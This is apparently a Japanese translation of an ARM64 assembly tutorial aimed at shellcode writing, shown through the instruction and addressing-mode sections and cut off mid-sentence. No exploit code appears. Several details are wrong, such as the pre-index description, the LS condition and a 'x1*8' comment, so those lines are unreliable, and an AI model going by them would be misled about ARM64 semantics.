

# シェルコードと暗号を使ったLinuxでのARM64 / AArch64アセンブリガイド

[シェルコードと暗号を使ったLinuxでのARM64 / AArch64アセンブリガイド](https://modexp.wordpress.com/2018/10/30/arm64-assembly/#shellcode)の翻訳

## はじめに

コードネーム「Enyo」と呼ばれるCortex-A76は2018年から2020年にかけてノートPC市場を
ターゲットに設計されたARMの3つのCPUコアの最初のものです。ARMはすでに携帯端末を
独占しており、今後ノートPCやサーバ市場でシェアを獲得していくと予測されています。
まず、Appleは2018年4月に2020年以降のMacbookのCPUをIntelからARMに置き換える意向を
発表しました。次に、Ampereという会社が2018年9月にIntelのXEON CPUに対抗する
サーバ用64ビットARM CPUの出荷を開始したことです。さらに、同月に発表されたA76の
Automotive Enhanced（AE）版は自動運転車などのアプリケーションをターゲットにして
います。A76は引き続きA32とT32の命令セットをサポートしますが、対応するのは非特権
コードだけです。特権コード（カーネル、ドライバ、ハイパバイザ）は、64ビットモード
でしか実行されません。ARMがAシリーズにおける32ビットコードのサポートを段階的に
終了させようとする意図は明らかです。Linuxディストロの開発者もARMを含むすべての
32ビットアーキテクチャのサポートを打ち切ることを決定しています。

この記事はARM64アセンブリの入門編であり、高度なトピックを扱うものではありま
せん。私の学習が進むについて定期的に更新していくつもりです。また、内容を改善
するための提案や修正すべき点があれば遠慮なくメールしてください。

もし、この記事で紹介されているコードが欲しいだけであれば[ここ](https://github.com/odzhan/shellcode/tree/master/os/linux/arm64)をご覧ください。

ARMv8-Aアーキテクチャに関するより包括的な情報については[ARM Architecture Reference Manual ARMv8, for ARMv8-A architecture profile](https://developer.arm.com/docs/ddi0487/latest/arm-architecture-reference-manual-armv8-for-armv8-a-architecture-profile)を
参照してください。ここで述べていることはソースコードとGNUの話題を除いて、
すべてこのマニュアルに記載されています。

## 1. ARMアーキテクチャ

ARMは、RISC（Reduced Instruction Set Computer）アーキテクチャのコンピュータ
プロセッサファミリであり、現在販売されているスマートフォンやタブレット、そして
ほとんどのIoTデバイスに使用されるCPUの主流になっています。ARMが使われているのは
家電製品だけではありません。医療機器、自動車、飛行機、ロボットなど何十億という
デバイスに搭載されているCPUです。ARMの人気は生産コストの削減と電力効率に起因
します。ARMホールディングスはファブレス半導体企業であり、ハードウェアの製造は
行っていません。同社はプロセッサコアを設計し、その技術をIP（Intellectual
Property）としてATMEL、NXP、Samsungなどの半導体企業にライセンス供与しています。

このチュートリアルでは、64ビットのDebian Linuxが動作するRaspberry Pi (RPI) 3で
ある「orca」を使ってプログラミングを行います。このRPIにはCortex-A53が搭載されて
います。これはARMv8-Aの64ビットコアでARMv7-Aとの後方互換性があるのでA32とT32
命令セットを実行することができます。以下は`lscpu`コマンドの出力のスクリーン
ショットです。


注意すべきは2つの実行状態が存在することです。

<dl>
<dt>AArch32</dt>
<dd>T32（Thumb）とA32（ARM）命令セットをサポートする32ビット実行状態。
<dt>AArch64</dt>
<dd>A64命令セットをサポートする64ビット実行状態。
</dL>

この記事ではA64命令セットだけにフォーカスします。

### 1.1 プロファイル

プロファイルは3つ用意されており、各々は特定の目的に合わせて設計されています。
シェルコードを書きたい場合はLinuxやWindowsなどのGPOS（General Purpose Operating
System）をサポートしている唯一のプロファイルであるAシリーズを主に扱うことに
なると考えてよいでしょう。リアルタイムオペレーティングシステム（RTOS）は
RシリーズやMシリーズで動作しているのを見ることが多いでしょう。

| コア | プロファイル | アプリケーション |
|:----:|:-------------|:-----------------|
| A | アプリケーション |  メモリ管理ユニット（MMU）をベースとする仮想メモリシステムアーキテクチャ（VMSA）をサポートします。Windows、Linux、Android、iOSなどのオペレーティングシステムを実行する高性能デバイスに搭載されています。 |
| R | リアルタイム |  医療機器、PLC、ECU、航空電子機器、ロボットなどに搭載されています。自動車の電子ブレーキシステムや自律型ドローン、ハンターキラー（HK）など、低レイテンシで高い安全性が要求されるところで使用されています。  |
| M | マイクロコントローラ |   MMUをベースとするPMSA（Protected Memory System Architecture）をサポートします。ASIC、ASSP、FPGA、SoCに搭載され、電源管理、I/O、タッチパネル、スマートバッテリ、センサ・コントローラに使用されています。HK Aerialなど、Mシリーズを採用しているドローンもあります。 |

大多数のシングルボードコンピュータはCortex-Aシリーズで動作しています。Cortex-A
シリーズはほとんどのOSが必要とする仮想メモリアドレスを物理メモリアドレスに変換
するMMUを備えているからです。

### 1.2 オペレーティングシステム

RTOSはタイムクリティカルですがGPOSはそうではありません。ここではRTOSのコードを
書くことについては触れませんが、ARMベースのすべてのデバイスでLinuxが動いている
わけではないのでこの違いを知っておくことは重要です。256KBのRAMしかないデバイスに
適用するにはLinuxははるかに多くのリソースを必要とします。もちろんLinuxは周辺機器、
ファイルシステム、コードの動的ロード、ネットワーク接続、ユーザインタフェースの
サポートなど数多くサポートしています。これら全てによりインターネットに接続されて
いる携帯端末は理想的です。しかし、RTOSにこれと同じサポートがあることはないで
しょう。RTOSはLinuxのような完全なOSではないからです。RTOSはタスクスケジュー
リングとプロセス間通信（IPC）、同期サポートを備えた静的ライブラリのみで構成
されるでしょう。

QNXやVxWorksなど、一部のRTOSはGPOSに一般的に見られる機能をサポートするように
構成することができ、脆弱性を調査すればこれらのうち少なくとも1つに出くわす
ことがあるでしょう。以下はより詳しく調査したいと思うかもしれない組み込み
オペレーティングシステムのリストです。

#### オープンソース

- mbed OS
- Zephyr OS
- RIOT OS
- Contiki-NG
- BeRTOS
- ChibiOS
- Free RTOS
- Micrium uC/OS-II
- eCos
- NuttX

#### 商用

- QNX
- vxWorks

### 1.3 レジスタ

この記事では汎用、ゼロ、スタックポインタの各レジスタの使用だけにフォーカスし、
SIMD、浮動小数点、ベクトルの各レジスタは使用しません。ほとんどのシステム
コールは、汎用レジスタしか使用しません。

| 名前 | サイズ | 説明    |
|:----|:-------|:---------|
| Wn  | 32ビット | 汎用レジスタ 0-31 |
| Xn  | 64ビット | 汎用レジスタ 0-31 |
| WZR  | 32ビット | ゼロレジスタ |
| XZR  | 64ビット | ゼロレジスタ |
| SP  | 64ビット | スタックポインタ |

Wは32ビットレジスタを、Xは64ビットレジスタを表します。

### 1.4 呼び出し規約

以下はDebian Linuxに適用されているものです。x0-x18は自由に使えますが，
サブルーチンを呼び出す場合、サブルーチンもx0-x18を使うことがあることを
覚えておいてください．

| レジスタ | 説明    |
|:-------|:---------|
| X0 - X7 | 引数と返り値 |
| X8 - X18 | 一時レジスタ |
| X19 - X28 | callee-savedレジスタ |
| X29 | フレームポインタ |
| X30 | リンクレジスタ |
| SP | スタックポインタ |

x0-x7は引数や戻り値の受け渡しに使用されます。これらのレジスタの値は呼び出された
関数(callee)が自由に変更できるため、たとえ引数渡しや戻り値で使用されていなくても
呼び出し側(caller)はその内容について何も想定することはできません。これはこれらの
レジスタが実質的にはcaller-savedであることを意味します。

x8-x18はすべての関数が使用する一時的なレジスタです。関数から戻った最にその値に
何らかの仮定をすることは一切できません。これらのレジスタも実質的にはcaller-saved
です。

x19-x28は関数で使用する場合、その値を保存し、呼び出し元に戻る際に復元する必要が
あるレジスタです。これらのレジスタはcalle-savedです。

x29はフレームポインタとして使用でき、x30はリンクレジスタです。Calleeはサブ
ルーチンを呼び出す場合はx30を保存する必要があります。

### 1.5 条件フラグ

ARMにはいくつかの命令の動作に影響を与える条件フラグを持つ「プロセスステート」が
あります。分岐命令は実行の流れを変えるのに使用することができます。データ処理
命令の中にはANDSやADDSのように条件フラグを接尾辞Sで設定できるものがあります。
フラグにはゼロフラグ（Z）、キャリーフラグ（C）、マイナスフラグ（N）、オーバ
フローフラグ（V）があります。

| フラグ | 説明    |
|:-------|:---------|
| N | ビット31。操作の結果が負の場合、セットされます。正またはゼロの場合，クリアされます。 |
| Z | ビット30。操作の結果がゼロか等しい場合、セットされます。非ゼロか等しくない場合，クリアされます。 |
| C | ビット29。操作の結果がキャリーかオーバフローの場合、セットされます。キャリーがない場合，クリアされます。 |
| V | ビット28。操作の結果がオーバフローの場合、セットされます。オーバフローでない場合，クリアされます。 |

### 1.6 条件コード

A32命令セットではそのほとんどの操作で条件付き実行をサポートしています。
パフォーマンス向上のため、ARMはA64でサポートを廃止しました。A64ではこれらの条件
コードは分岐命令、選択命令、比較命令だけで有効です。これは一見欠点に見えますが
A64命令セットには十分な代替手段があり明らかに改善されています。

| ニーモニック | 説明    | 条件フラグ |
|:-------|:---------|:------|
| EQ | 等しい | Z セット |
| NE | 等しくない | Z クリア  |
| CS/HS | キャリーセット | C セット |
| CC/LO | キャリークリア | C クリア |
| MI | マイナス | N セット |
| PL  | プラス、正またはゼロ | N クリア  |
| VS | オーバフロー | V セット |
| VC | オーバフローなし | V クリア |
| HI | 符号なし以上 | C セットかつ Z クリア |
| LS | 符号なし以下 | C クリアかつ Z セット  |
| GE | 符号付き以上 | NとVが同じ |
| LT | 符号付き未満 | NとVが異なる |
| GT | 符号付きより大 | Z クリアかつ NとVが同じ |
| LE | 符号付き以下 | Z セットかつ NとVが異なる |
| AL | 常に（通常は付けない） | 任意 |

### 1.7 データ型

x86の「ワード」は16ビットで「ダブルワード」は32ビットです。ARMの「Word」は
32ビットで「ダブルワード」は64ビットです。

| 型 | サイズ |
|:-------|:---------|
| バイト |  8ビット |
| ハーフワード |  16ビット |
| ワード |  32ビット |
| ダブルワード |  64ビット |
| クワッドワード |  128ビット |

### 1.8 データアライメント

スタックポインタのアライメントはポインタサイズの2倍でなければなりません。
したがって、AArch32では8バイト、AArch64では16バイトです。

## 2. A64命令セット

これまでのARMアーキテクチャと同様、ARMv8-Aもロード/ストアアーキテクチャです。
データ処理命令はx86アーキテクチャのようにメモリ上のデータを直接操作することは
ありません。データはまずレジスタにロードされ、修正された後、メモリに戻されるか、
不要になれば単に破棄されます。ほとんどのデータ処理命令は1つのディスティネーション
レジスタと2つのソースオペランドを使用します。一般的な形式は、次のように、
命令、オペランドの順であると考えることができます。

```
Instruction Rd, Rn, Operand2
```

Rdはデスティネーションレジスタです。Rnは演算対象となるレジスタです。Rが使われて
いるのはXレジスタでもWレジスタでも良いということを表しています。Operand2には
レジスタ、変更されたレジスタ、即値のいずれかを指定できます。

### 2.1 算術演算命令

以下の命令は算術演算、スタック割当、メモリのアドレス指定、制御フロー、レジスタや
変数の初期化などに使用できます。

**訳注**: {S}が付く場合は演算結果に応じて条件フラグを更新、つかない場合は
更新しない。

<table>
<tr><th width="20%">ニーモニック</th><th width="20%">オペランド</th><th>命令</th></tr>
<tr>
    <td>ADD{S}<br/>（即値）</td>
    <td>Rd, Rn, #imm{, shift}</td>
    <td>Add（即値）は、レジスタRnの値と任意でシフトされた即値を加算し、結果をディスティネーションレジスタRdに書き込みます</td>
</tr>
<tr>
    <td>ADD{S}<br/>（拡張レジスタ）</td>
    <td>Rd, Rn, Rm{, extend {#amount}}</td>
    <td>Add（拡張レジスタ）は、レジスタRnの値とレジスタRmの値を符号拡張またはゼロ拡張した後オプションでシフト量だけ左シフトした値を加算し、結果をディスティネーションレジスタRdに書き込みます。拡張される引数としてRmレジスタに指定できるのはバイト、ハーフワード、ワード、ダブルワードのいずれかです。</td>
</tr>
<tr>
    <td>ADD{S}<br/>（シフトレジスタ）</td>
    <td>Rd, Rn, Rm{. shift #amount}</td>
    <td>Add（シフトしたレジスタと）は、レジスタRnの値とレジスタRmの値をオプションでシフトした値を加算し、結果をデスティネーションレジスタに書き込みます。</td>
</tr>
<tr>
    <td>ADR</td>
    <td>Xd, rel</td>
    <td>PC相対アドレスの形成命令は、PC値に即値を加算してPC相対アドレスを形成し、その結果をデスティネーションレジスタXdに書き込みます。</td>
</tr>
<tr>
    <td>ADRP</td>
    <td>Xd, rel</td>
    <td>4KBページPC相対アドレス形成命令は、PC値に12ビット左シフトした即値を加算し、下位12ビットをマスクアウトしたPC相対アドレスを形成し、その結果をデスティネーションレジスタXdに書き込みます。</td>
</tr>
<tr>
    <td>CMN<br/>（拡張レジスタ）</td>
    <td>Rn, Rm{, extend {#amount}}</td>
    <td>Compare Negative（拡張レジスタ）は、レジスタRnの値とレジスタRmの値を符号拡張またはゼロ拡張した後オプションでシフト量だけ左シフトした値を加算します。拡張される引数としてRmレジスタに指定できるのはバイト、ハーフワード、ワード、ダブルワードのいずれかです。その結果に基づいて条件フラグを更新し、結果は破棄します。</td></tr>
<tr>
    <td>CMN<br/>（即値）</td>
    <td>Rn, #imm{, shift}</td>
    <td>CMN（即値）は、 レジスタRnの値とオプションでシフトした即値を加算します。その結果に基づいて条件フラグを更新し、結果は破棄します。</td>
</tr>
<tr>
    <td>CMN<br/>（シフトレジスタ）</td>
    <td>Rn, Rm{, shift #amount}</td>
    <td>Compare Negative（拡張レジスタ）は、レジスタRnの値とレジスタRmの値をオプションでシフトした値を加算します。その結果に基づいて条件フラグを更新し、結果は破棄します。</td>
</tr>
<tr>
    <td>CMP<br/>（拡張レジスタ）</td>
    <td>Rn, Rm{, extend {#amount}}</td>
    <td>Compare（拡張レジスタ）は、レジスタRnの値からレジスタRmの値を符号拡張またはゼロ拡張した後オプションでシフト量だけ左シフトした値を減算します。拡張される引数としてRmレジスタに指定できるのはバイト、ハーフワード、ワード、ダブルワードのいずれかです。その結果に基づいて条件フラグを更新し、結果は破棄します。</td>
</tr>
<tr>
    <td>CMP<br/>（即値）</td>
    <td>Rn, #imm{, shift}</td>
    <td>Compare（即値）は、 レジスタRnの値からオプションでシフトした即値を減算します。その結果に基づいて条件フラグを更新し、結果は破棄します。</td>
</tr>
<tr>
    <td>CMP（シフトレジスタ）</td>
    <td>Rn, Rm{, shift #amount}</td>
    <td>Compare（拡張レジスタ）は、レジスタRnの値からレジスタRmの値をオプションでシフトした値を減算します。その結果に基づいて条件フラグを更新し、結果は破棄します。</td>
</tr>
<tr>
    <td>MADD</td>
    <td>Rd, Rn, Rm, ra</td>
    <td>Multiply-Addは、レジスタRnの値とレジスタRmの値を乗算した値にレジスタraの値を加算し、結果をディスティネーションレジスタRdに書き込みます。</td>
</tr>
<tr>
    <td>MNEG</td>
    <td>Rd, Rn, Rm</td>
    <td>Multiply-Negateは、レジスタRnの値とレジスタRmの値を乗算した値を負値にした（0から引いた）結果を出力先レジスタに書き込みます。MSUBの別名です(MSUB Rd, Rn, Rm, WZR/XZR)。</td>
</tr>
<tr>
    <td>MSUB</td>
    <td>Rd, Rn, Rm, ra</td>
    <td>ultiply-Subtractは、レジスタRnの値とレジスタRmの値を乗算した値をレジスタraの値から減算します。その結果を出力先レジスタに書き込みます。</td>
</tr>
<tr>
    <td>MUL</td>
    <td>Rd, Rn, Rm</td>
    <td>Multiplyは、MADDの別名です(MADD Rd, Rn, Rm, WZR/XZR)。</td>
</tr>
<tr>
    <td>NEG{S}</td>
    <td>Rd, op2</td>
    <td>Negate（シフトレジスタ）は、オプションでシフトしたレジスタの値を負値にして、結果をディスティネーションレジスタRdに書き込みます。</td>
</tr>
<tr>
    <td>NNGC{S}</td>
    <td>Rd, Rm</td>
    <td>Negate with Carryは、レジスタRmの値とNOT（キャリフラグ）の値の合計を負値にして、結果をディスティネーションレジスタRdに書き込みます。</td>
</tr>
<tr>
    <td>SBC{S}</td>
    <td>Rd, Rn, Rm</td>
    <td>Subtract with Carryは、レジスタRnの値からレジスタRmの値とNOT（キャリフラグ）の値を減算し、結果をディスティネーションレジスタRdに書き込みます。 </td>
</tr>
<tr>
    <td>{U|S}DIV</td>
    <td>Rd, Rn, Rm</td>
    <td>Unsigned/Signed Divideは、符号付き整数レジスタRnの値を符号付き整数レジスタRmの値で除算し、結果をディスティネーションレジスタRdに書き込みます。条件フラグは変更されません。</td>
</tr>
<tr>
    <td>{U|S}MADDL</td>
    <td>Xd, Wn, Wm, Xa</td>
    <td>Unsigned/Signed Multiply-Add Longは、2つの32ビットレジスタWnとWmの値を乗算した結果に64ビットレジスタXaの値を加算します。その結果を64ビットのディスティネーションレジスタXdに書き込みます。</td>
</tr>
<tr>
    <td>{U|S}MNEGL</td>
    <td>Xd, Wn, Wm</td>
    <td>Unsigned/Signed Multiply-Negate Longは、2つの32ビットレジスタWnとWmの値を乗算した結果を負値にして、64ビットのディスティネーションレジスタXdに書き込みます。</td>
</tr>
<tr>
    <td>{U|S}MSUBL</td>
    <td>Xd, Wn, Wm, Xa</td>
    <td>Unsigned/Signed Multiply-Subtract Longは、2つの32ビットレジスタWnとWmの値を乗算した結果を64ビットレジスタXaの値から減算します。その結果を64ビットのディスティネーションレジスタXdに書き込みます。</td>
</tr>
<tr>
    <td>{U|S}MULH</td>
    <td>Xd, Xn, Xm</td>
    <td>Unsigned/Signed Multiply Highは、2つの64ビットレジスタXnとXmの値を乗算し、128ビットの結果のビット[127:64]を64ビットのディスティネーションレジスタXdに書き込みます。</td>
</tr>
<tr>
    <td>{U|S}MULL</td>
    <td>Xd, Wn, Wm</td>
    <td>Unsigned/Signed Multiply Longは、2つの32ビットレジスタWnとWmの値を乗算し、結果を64ビットのディスティネーションレジスタXdに書き込みます。</td>
</tr>
<tr>
    <td>SUB{S}<br/>（拡張レジスタ）</td>
    <td>Rd, Rn, Rm{, extend {#amount}}</td>
    <td>Subtract（拡張レジスタ）は、レジスタRnの値からレジスタRmの値を符号拡張またはゼロ拡張した後オプションでシフト量だけ左シフトした値を減算し、結果をディスティネーションレジスタRdに書き込みます。拡張される引数としてRmレジスタに指定できるのはバイト、ハーフワード、ワード、ダブルワードのいずれかです。</td>
</tr>
<tr>
    <td>SUB{S}<br/>（即値）</td>
    <td>Rd, Rn, #imm{, shift}</td>
    <td>Subtract（即値）は、レジスタRnの値からオプションでシフト量だけ左シフトした即値を減算し、結果をディスティネーションレジスタRdに書き込みます。</td>
</tr>
<tr>
    <td>SUB{S}<br/>（シフトレジスタ）</td>
    <td>Rd, Rn, Rm{, shift #amout}</td>
    <td>Subtract（シフトレジスタ）は、レジスタRnの値からレジスタRmの値をオプションでシフトした値を減算し、結果をデスティネーションレジスタに書き込みます。</td>
</tr>
</table>

```
// if x0 == -1
cmn     x0, 1
beq     minus_one

// if x0 == 0
cmp     x0, 0
beq     zero

// スタックに32バイトを割り当てる
sub     sp, sp, 32

// x0 = x0 % 37
mov     x1, 37
udiv    x2, x0, x1
msub    x0, x2, x1, x0

// x0 = 0
sub     x0, x0, x0
```

### 論理演算と移動命令

主にビットのテストや操作に使用されます。暗号アルゴリズムはハードウェアとソフト
ウェア双方で効率的に動作させるためにこれらの操作を大いに使用しています。ハード
ウェアにビット演算を実装することは比較的安価です。

<table>
<tr>
    <th width="38%">ニーモニック + オペランド</th>
    <th width="20%">名称</th>
    <th>疑似命令</th></tr>
<tr>
    <td><code>AND{S} Rd, Rn, #imm</code></td>
    <td>論理積（即値）</td>
    <td>Rd = Rn & #imm</td>
</tr>
<tr>
    <td><code>AND{S} Rd, Rn, Rm{, shift #amout}</code></td>
    <td>論理積（シフトレジスタ）</td>
    <td>Rd = Rn & Rm<br/>Rd = Rn & (Rm shift #aount)</td>
</tr>
<tr>
    <td><code>ASR Rd, Rn, Rm</code></td>
    <td>算術右シフト（レジスタ）</td>
    <td>Rd = (MSB) -> | Rn >> (Rm % sizeof(data))</td>
</tr>
<tr>
    <td><code>ASR Rd, Rn, #imm</code>/td>
    <td>算術右シフト（即値）</td>
    <td>Rd = (MSB) -> | Rn >> #imm</td>
</tr>
<tr>
    <td><code>BIC{S} Rd, Rn, Rm{, shift #amount}/code></td>
    <td>ビットクリア</td>
    <td>Rd = Rn & ~Rm<br/>Rd = Rn & ~(Rm shift #amout)</td>
</tr>
<tr>
    <td><code>EON Rd Rn Rm{, shift #amount}/code></td>
    <td>否定排他的論理和</td>
    <td>Rd = ~(Rn ^ Rm)<br/>Rd = ~(Rn ^ (Rm shift #amount})</td>
</tr>
<tr>
    <td><code>EOR Rd, Rn, #imm</code></td>
    <td>排他的論理和（即値）</td>
    <td>Rd = Rn ^ #imm</td>
</tr>
<tr>
    <td><code>EOR Rd, Rn, Rm{, shift #amount}</code></td>
    <td>排他的論理和（シフトレジスタ）</td>
    <td>Rd = Rn ^ Rm<br/>Rd = Rn ^ (Rm shift #amount)</td>
</tr>
<tr>
    <td><code>LSL Rd, Rn, Rm</code></td>
    <td>論理シフト左（レジスタ）</td>
    <td>Rd = Rn << (Rm % sizoef(data)) | <- 0</td>
</tr>
<tr>
    <td><code>LSL Rd, Rn, #imm</code></td>
    <td>論理シフト左（即値）</td>
    <td>Rd = Rn << #imm | <- 0</td>
</tr>
<tr>
    <td><code>LSR Rd Rn, Rm</code></td>
    <td>論理シフト右（レジスタ）</td>
    <td>Rd = 0 -> | Rn << (Rm % sizeof(data))</td>
</tr>
<tr>
    <td><code>LSR Rd, Rn, #imm</code></td>
    <td>論理シフト右（即値）</td>
    <td>Rd = 0 -> | Rn >> #imm</td>
</tr>
<tr>
    <td><code>MOV Rd, Rn</code></td>
    <td>移動（レジスタ）</td>
    <td>Rd = Rn</td>
</tr>
<tr>
    <td><code>MOV Rd, #imm</code></td>
    <td>移動（16ビット即値）</td>
    <td>Rd = #imm (16-bit)</td>
</tr>
<tr>
    <td><code>MOVK Rd, #imm{, shift #amount}</code></td>
    <td>移動（16ビット即値＋キープ）</td>
    <td>Rd = Rd | #imm<br/>Rd = Rd | (#imm shift #amout)</td>
</tr>
<tr>
    <td><code>MOVN Rd, #imm{, shift #amount}</code></td>
    <td>移動（否定16ビット即値）</td>
    <td>Rd = ~Rd<br/>Rd = ~(Rd shift #amount)</td>
</tr>
<tr>
    <td><code>MOVZ Rd, #imm{, shift #amount}</code></td>
    <td>移動（+ゼロ）</td>
    <td>Rd = #imm<br/>Rd = (#imm shift #amount)</td>
</tr>
<tr>
    <td><code>MVN Rd, Rm{, shift #amount}</code></td>
    <td>否定</td>
    <td>Rd = ~Rm<br/>Rd = ~(Rm shift #amout}</td>
</tr>
<tr>
    <td><code>ORN Rd, Rn, Rm{, shift #amount}</code></td>
    <td>否定論理和</td>
    <td>Rd = Rn | ~Rm<br/>Rd = Rn | ~(Rm shift #amount}</td>
</tr>
<tr>
    <td><code>ORR Rd, Rn, #imm</code></td>
    <td>論理和（即値）</td>
    <td>Rd = Rn | #imm</td>
</tr>
<tr>
    <td><code>ORR Rd, Rn, Rm{, shift #amount}</code></td>
    <td>論理和（シフトレジスタ）</td>
    <td>Rd = Rn | Rm<br/>Rd = Rn | (Rm shift #amout}</td>
</tr>
<tr>
    <td><code>ROR Rd, Rs, #shift</code></td>
    <td>右ローテート（即値）</td>
    <td>Rd = (offed)-> | Rs >> shift</td>
</tr>
<tr>
    <td><code>ROR Rd, Rn, Rm</code></td>
    <td>右ローテート（レジスタ）</td>
    <td>Rd = (offed) -> | Rn >> (Rm % sizeof(data))</td>
</tr>
<tr>
    <td><code>TST Rn, #imm</code></td>
    <td>ビットテスト(即値）</td>
    <td>(Rn & #imm)<br/>フラグをセットして結果を破棄</td>
</tr>
<tr>
    <td><code>TST Rn, Rm{, sift #amount}</code></td>
    <td>ビットテスト（シフトレジスタ）</td>
    <td>(Rn & Rm)<br/>(Rn & (Rm shift #amount)<br/>
    フラグをセットして結果を破棄</td>
</tr>

</table>

乗算は論理シフト左(LSL)を使用して行うことができます。除算は論理シフト右(LSR)を
使用して行うことができます。モジュロ演算はビット単位ANDを使用して行うことが
できます。唯一の条件は乗算器と除算器は2のべき乗であることです。以下に示す最初の
3つの例はこれらの演算を示しています。

```
// x1 = x0 / 8
lsr     x1, x0, 3

// x1 = x9 * 4
lsl     x1, x0, 2

// x1 = x0 % 16
and     x1, xo, 15

// if x0 == 0
tst     x0, x0
beq     zero

// x0 = 0
eor     x0, x0, x0
```

### 2.3 ロード・ストア命令とアドレッシングモード

以下にデータのロードとストアに使用される主な命令を示します。もちろん他にも、
特権／非特権ロード、非スケール／非アラインロード、アトミック性、排他的レジスタ
などのために設計された命令もあります。しかし、初心者のうちは当面ここに上げる
命令しか気にする必要はないでしょう。

<table>
<tr>
    <th width="38%">ニーモニック + オペランド</th>
    <th width="23%">名称</th>
    <th>疑似命令</th></tr>
<tr>
    <td><code>LDR(B|H|SB|SH|SW) Wt, [Xn|SP], #simm</code></td>
    <td>ロードレジスタ（即値）</td>
    <td>Wt = [Xn|SP + #simm]</td>
</tr>
<tr>
    <td><code>LDR(B|H|SB|SH|SW) Wt, [Xn|SP, (Wm|Xm){, extend {amount}}]</code></td>
    <td>ロードレジスタ（レジスタ）</td>
    <td>Wt = [Xn|SP + Wm|Xm]<br/>Wt = [Xn|SP + Wm|Xm] extend {<< #amount}</td>
</tr>
<tr>
    <td><code>STR(B|H|SB|SH|SW) Wt, [Xn|SP], #simm</code></td>
    <td>ストアレジスタ（即値）</td>
    <td>[Xn|SP + #simm] = Wt</td>
</tr>
<tr>
    <td><code>STR(B|H|SB|SH|SW) Wt, [Xn|SP, (Wm|Xm){, extend {#}}</code></td>
    <td>ストアレジスタ（レジスタ）</td>
    <td>[Xn|SP + Wm|Xm] = Wt<br/>[Xn|SP + Wm|Xm extend #amount] = Wt</td>
</tr>
<tr>
    <td><code>LDP Wt1, Wt2, [Xn|SP], #imm</code></td>
    <td>ロードレジスタペア</td>
    <td>Wt1 = [Xn|SP];<br/>Wt2 = [Xn|SP + 4];<br/>Xn|SP += #imm]</td>
</tr>
<tr>
    <td><code>STP Wt1, Wt2, [Xn|SP], #imm</code></td>
    <td>ストアレジスタペア</td>
    <td>[Xn|SP] = Wt1;<br/>[Xn|SP + 4] = Wt2;<br/>Xn|SP += #imm</td>
</tr>
</table>

```
// x1から1バイトロード
ldrb    w0, [x1]

// x1から符号付き1バイトをロード
ldrsb   w0, [x1]

// x1が示すアドレスに32ビットワードをストア
str     w0, [x1]

// 事前にspに8を足して、スタックから32ビットワードを2つロード
ldp     w0, w1, [sp], 8

// [sp-96]に64ビットワードを2つストアし、spから96を引く
stp     x0, x1, [sp, -96]!

// リテラルプールから32ビット即値をロード
ldr     w0, =0x12345678
```

<table>
<tr><th width="25%">アドレッシングモード</th><th width="20%">即値</th><th width="30%">レジスタ</th><th>拡張レジスタ</th></tr>
<tr>
    <td>ベースレジスタのみ<br/>（オフセットなし）</td>
    <td>[base{, 0}]</td>
    <td></td>
    <td></td>
</tr>
<tr>
    <td>ベース+オフセット</td>
    <td>[base{, imm}]</td>
    <td>[base, Xm{, LSL.imm}]</td>
    <td>[base, Wm, (S|U)XTW {#imm}]</td>
</tr>
<tr>
    <td>プレインデックス</td>
    <td>[base, imm]!</td>
    <td></td>
    <td></td>
</tr>
<tr>
    <td>ポストインデックス</td>
    <td>[base], imm</td>
    <td>[base], Xm a</td>
    <td></td>
</tr>
<tr>
    <td>リテラル<br/>（PC相対）</td>
    <td>label</td>
    <td></td>
    <td></td>
</tr>
</table>

#### ベースレジスタのみ

```
// x1から1バイトロード
ldrb    w0, [x1]

// x1から1ハーフワードロード
ldrh    w0, [x1]

// x1から1ワードロード
ldr     w0, [x1]

// x1から1ダブルワードロード
ldr     x0, [x1]
```

#### ベースレジスタ+オフセット

```
// x1+1から1バイトロード
ldrb    w0, [x1, 1]

// x1+2から1ハーフワードロード
ldrh    w0, [x1, 2]

// x1+4から1ワードロード
ldr     w0, [x1, 4]

// x1*8から1ダブルワードロード
ldr     x0, [x1, 8]

// x2をインデックスとして使用してx1から1ダブルワードロード
// x2は8倍
ldr     x0, [x1, x2, lsl 3]

// w2をインデックスとして使用してx1から1ダブルワードロード
// w2はゼロ拡張して8倍
ldr     x0, [x1, w2, uxtw 3]
```

#### プレインデックス

エクスクラメーション`!`はロード・ストアしたあとにオフセットを足すことを意味します。

```
// x1+1から1バイトロードして、x1に1を足す
ldrb    w0, [x1, 1]!

// x1+2から1ハーフワードロードして、x1に2を足す
ldrh    w0, [x1, 2]!

// x1+4から1ワードロードして、x1に4を足す
ldr     w0, [x1, 4]!

// x1*8から1ダブルワードロードして、x1に8を足す
ldr     x0, [x1, 8]!
```

#### ポストインデックス

このモードはまず値にアクセスして、その後ベースにオフセットを足します。

```
// x1から1バイトロードして、x1に1を足す
ldrb    w0, [x1], 1

// x1から1ハーフワードロードして、x1に2を足す
ldrh    w0, [x1], 2

// x1から1ワードロードして、x1に4を足す
ldr     w0, [x1], 4

// x1から1ダブルワードロードして、x1に8を足す
ldr     x0, [x1], 8
```

#### リテラル（PC相対）

これらの命令はAMD64におけるRIP相対アドレッシングと同じように動作します。

```
// ラベルのアドレスをロード
adr     x0, label

// ラベルのアドレスをロード
adrp    x0, label
```

### 2.4 条件命令

これらの命令は現在の条件フラグの状態に応じて第1ソースレジスタか第2ソースレジスタを
選択します。指定された条件が真の場合、第1ソースレジスタが選択され、その値が
そのままデスティネーションレジスタにコピーされます。条件が偽の場合、第2番ソース
レジスタが選択され、その値がデスティネーションレジスタに書き込まれます。書き込みの
